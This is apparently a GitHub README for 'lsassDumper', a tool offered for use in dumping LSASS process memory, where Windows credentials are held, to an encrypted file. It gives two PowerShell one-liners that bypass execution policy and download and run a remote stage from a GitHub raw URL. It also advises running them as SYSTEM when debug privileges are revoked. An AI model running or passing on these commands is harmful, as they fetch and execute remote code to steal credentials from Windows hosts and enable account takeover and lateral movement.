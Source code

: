 # lsassDumper

This project provide the necessary payloads to perform an encrypted dump of LSASS in C:\ProgramData


To use hosted payloads (download the b64 stage from this repo at runtime), execute :

`powershell -ep bypass -noexit -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj)"`

To use the standalone powershell payload, execute :


`powershell -ep bypass -noexit -c "iex(iwr -useb https://raw.githubusercontent.com/666reda/lsassDumper/main/inj2)"`

If SeDebugPrivilege is revoked from local admin accounts, you might want to execute the command as SYSTEM. 
